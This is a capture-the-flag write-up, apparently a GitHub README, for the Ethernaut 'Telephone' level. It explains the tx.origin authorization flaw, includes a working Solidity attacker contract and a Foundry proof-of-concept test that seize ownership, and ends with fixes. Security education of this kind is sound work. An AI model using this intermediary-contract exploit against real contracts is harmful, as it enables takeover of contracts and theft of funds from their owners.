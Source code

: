 # Level 4 - Telephone

## Objectives

- claim ownership of the contract

## Contract Overview

The `Telephone` contract is checking if the caller is a smart contract.

A `Telephone` contract has one function `changeOwner` that is publicly visibile and which allows any smart
contract to change the owner of the `Telephone` contract.

The contract is supposed to work as follows:

- Contract validates condition that checks if the `tx.origin` is not equal to `msg.sender`.
- If condition is true, then sets the new owner to the address passed in the function arguments.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

## Finding the weak spots

The `changeOwner` is responsible for the critical action of changing ownership.
However, it is not protected by any security checks (like `onlyOwner` modifier).
It allows anyone to change the owner of the smart contract which is probably not
intended.

The `Telephone` contract relies on the `tx.origin` which is prone to
[phishing attacks](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin).
It might also be
[removed in the future](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200),
which may result in compatibility issues.

The contract also does not emit events on
[the critical access control parameters](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control),
which makes it difficult to track the ownership changes off-chain.

In `Telephone` contract we have specific `tx.origin` that always refers to the original transaction sender.

Instead of using `tx.origin` we should always use `msg.sender`. The reason for that is `tx.origin` looks for full call chain and the owner can never be a contract while `msg.sender` looks for most recent call.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) { // <-- this line over here
      owner = _owner;
    }
  }
```

The function `changeOwner()` has public visibility which means that it can be called by anyone. It has a condition that checks if the `tx.origin` is not equal to `msg.sender`. If this is true, then sets the new owner to the address passed in the function arguments.

So to exploit this we just need to make sure that our `tx.origin` and `msg.sender` do not match when the instance receives the function call to `changeOwner()`.

To bypass this validation we can make use of a malicious intermediary contract (e.g: phishing attack) to call `changeOwner()` and pass the function checks.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone_slither.png)

## Potential attack scenario (hypothesis)

Attacker can create a malicious intermediary contract that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

## Plan of the attack

1. Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract.
2. This call (`attack()` function) invokes the `changeOwner()` function with attacker's address as an argument.
3. The ownership is claimed by attacker.

## Malicious contract (TelephoneAttack.sol)

Malicious contract has an `attack()` function that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone victimContract;

    constructor(address _victimContractAddress) public {
        victimContract = Telephone(_victimContractAddress);
    }

    function attack() public {
        victimContract.changeOwner(msg.sender);
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/04-Telephone.t.sol))

```solidity
        // Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract
        TelephoneAttack telephoneAttack = new TelephoneAttack(levelAddress);

        emit log_named_address(
            "Owner of contract before attack: ",
            telephoneContract.owner()
        );

        // `attack()` function invokes the `changeOwner()` function with attacker's address as an argument
        emit log_string("Eve calls the attack function...");
        telephoneAttack.attack();

        // The ownership is claimed by attacker
        emit log_named_address(
            "Owner of contract after attack: ",
            telephoneContract.owner()
        );

        // Test assertion
        assertEq(telephoneContract.owner(), attacker);

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone.png)

## Recommendations

1. The use of some form of access control is recommended. An example of that
   might be OpenZeppelin Ownable, which provides a basic access control mechanism
   or OZ AccessControl which provides role-based access control.
2. The use of `tx.origin` should be removed from the contract.
3. Emission of events should be added to the critical `changeOwner()` function.
   It will result in better communication with off-chain components and a better
   user experience overall.

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/4.-telephone-phising-with-tx.origin-used-instead-of-msg.sender

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

